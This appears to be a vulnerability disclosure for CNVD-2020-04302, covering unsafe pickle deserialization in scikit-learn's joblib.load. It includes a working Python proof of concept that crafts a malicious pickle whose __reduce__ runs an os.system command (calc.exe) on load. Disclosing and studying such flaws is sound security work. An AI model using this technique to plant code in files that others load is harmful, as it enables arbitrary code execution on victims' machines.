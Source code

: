 # CNVD-2020-04302

- Product: Scikit-Learn
- Version: 
	- `sklearn.__version__`<= 0.23
	- `sklearn.externals.joblib.__version__`<=0.14.1

## Details

- `sklearn.externals.joblib.load` and `joblib.load` with evil data can lead to arbitary python code execution
	- `pickle.load`(without check) exists in `joblib.load`

### PoC
```python
from sklearn.externals import joblib
import pickle
class A(object):
    def __reduce__(self):
        return eval,("__import__('os').system('calc.exe')",)

# Generate PoC
x = []
x.append(A())
res = pickle.dumps(x)
open("test.pkl","wb").write(res)
# Trigger PoC
joblib.load("test.pkl")
```

### Result

![PoC](https://user-images.githubusercontent.com/32336251/70874185-fc5dc200-1feb-11ea-9fd5-fe79b20ffd4c.png)